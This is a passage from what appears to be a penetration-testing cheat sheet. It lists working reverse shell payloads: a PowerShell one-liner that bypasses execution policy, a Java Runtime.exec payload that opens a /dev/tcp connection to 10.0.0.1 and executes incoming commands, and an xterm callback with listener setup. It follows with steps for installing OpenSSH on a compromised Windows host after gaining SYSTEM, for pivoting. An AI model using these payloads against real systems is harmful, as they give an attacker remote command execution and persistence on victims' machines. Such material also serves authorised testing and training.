 ```text
powershell -ExecutionPolicy bypass -command "Import-Module reverse.ps1; reverse_powershell"
```

#### Java Reverse Shell

```text
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

#### Xterm Reverse Shell

One of the simplest forms of reverse shell is an xterm session. The following command should be run on the server. It will try to connect back to you \(10.0.0.1\) on TCP port 6001.

```text
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server \(:1 – which listens on TCP port 6001\). One way to do this is with Xnest \(to be run on your system\):

```text
Xnest :1
​
```

You’ll need to authorise the target to connect to you \(command also run on your host\):

```text
xhost +targetip
```

\#\#

### Linux

### Windows

### Pivoting

#### Openssh for Tunneling

Once you got SYSTEM on the target machine. download: [openssh\_for\_windows](https://github.com/PowerShell/Win32-OpenSSH/releases)

```text
powershell -command "Expand-Archive 'C:\<path-to-zipped-openssh>\openssh.zip' c:\<path-to-where-you-whereever-you-want\"
```

Then install it:

```text
powershell -ExecutionPolicy Bypass -File c:\<path-to-unzipped-openssh-folder>\install-sshd.ps1
```
